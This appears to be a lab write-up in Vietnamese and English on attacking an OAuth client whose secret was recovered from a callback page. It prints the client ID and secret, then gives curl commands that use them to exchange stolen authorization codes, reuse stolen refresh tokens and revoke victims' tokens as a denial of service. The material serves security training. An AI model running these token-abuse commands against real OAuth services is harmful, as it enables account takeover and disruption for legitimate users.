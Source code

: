 # Client Secret Attack Vectors - Lab04

## 🔐 **Client Credentials từ Lab04**

Từ việc reverse engineer callback page:
```
Client ID: f20e7e23-0376-4c18-9e05-1f862264a288
Client Secret: 8vM9ecVb7PC9PBpoj23uwfWty0yJdVVL
```

## 🎯 **Attack Vectors với Client Secret**

### 1. **Authorization Code Hijacking**
**Tác động**: Steal authorization codes từ legitimate users

```bash
# Intercept authorization code từ callback URLs
# Sau đó exchange với stolen client credentials
curl -X POST https://server-04.oauth.labs/oauth/token \
  -H "Authorization: Basic ZjIwZTdlMjMtMDM3Ni00YzE4LTllMDUtMWY4NjIyNjRhMjg4Ojh2TTllY1ZiN1BDOVBCcG9qMjN1d2ZXdHkweUpkVlZM" \
  -d "grant_type=authorization_code" \
  -d "code=STOLEN_CODE" \
  -d "redirect_uri=https://client-04.oauth.labs/callback"
```

### 2. **Refresh Token Abuse**
**Tác động**: Maintain persistent access với stolen refresh tokens

```bash
# Sử dụng stolen refresh token để get new access tokens
curl -X POST https://server-04.oauth.labs/oauth/token \
  -H "Authorization: Basic ZjIwZTdlMjMtMDM3Ni00YzE4LTllMDUtMWY4NjIyNjRhMjg4Ojh2TTllY1ZiN1BDOVBCcG9qMjN1d2ZXdHkweUpkVlZM" \
  -d "grant_type=refresh_token" \
  -d "refresh_token=STOLEN_REFRESH_TOKEN"
```

### 3. **Token Revocation Attacks**
**Tác động**: DoS attack bằng cách revoke tokens của legitimate users

```bash
# Revoke victim's tokens để force re-authentication
curl -X POST https://server-04.oauth.labs/oauth/revoke \
  -H "Authorization: Basic ZjIwZTdlMjMtMDM3Ni00YzE4LTllMDUtMWY4NjIyNjRhMjg4Ojh2TTllY1ZiN1BDOVBCcG9qMjN1d2ZXdHkweUpkVlZM" \
  -d "token=VICTIM_ACCESS_TOKEN"
```

### 4. **Dynamic Client Registration Abuse**
**Tác động**: Register malicious clients với same client_id
